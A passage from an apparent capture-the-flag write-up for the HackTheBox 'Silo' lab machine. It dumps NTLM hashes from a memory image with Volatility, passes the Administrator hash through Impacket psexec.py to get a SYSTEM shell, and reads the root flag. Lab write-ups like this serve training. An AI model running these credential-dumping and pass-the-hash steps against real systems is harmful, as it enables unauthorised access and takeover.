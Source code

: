     root@kali# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
    Volatility Foundation Volatility Framework 2.6
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::



## root Shell

We could try to crack these, but first, let's try pass the hash:



    root@kali# /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82
     administrator@10.10.10.82
    Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

    [*] Requesting shares on 10.10.10.82.....
    [*] Found writable share ADMIN$
    [*] Uploading file XryxqKFr.exe
    [*] Opening SVCManager on 10.10.10.82.....
    [*] Creating service PAYb on 10.10.10.82.....
    [*] Starting service PAYb.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system



### root.txt

With that shell, flag is easy to grab:



    C:\Users\Administrator\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is 78D4-EA4D

     Directory of C:\Users\Administrator\Desktop

    01/07/2018  02:34 PM    <DIR>          .
    01/07/2018  02:34 PM    <DIR>          ..
    01/04/2018  12:38 AM                32 root.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  15,284,826,112 bytes free

    C:\Users\Administrator\Desktop>type root.txt
    cd39ea0a



## Alternative Path to root

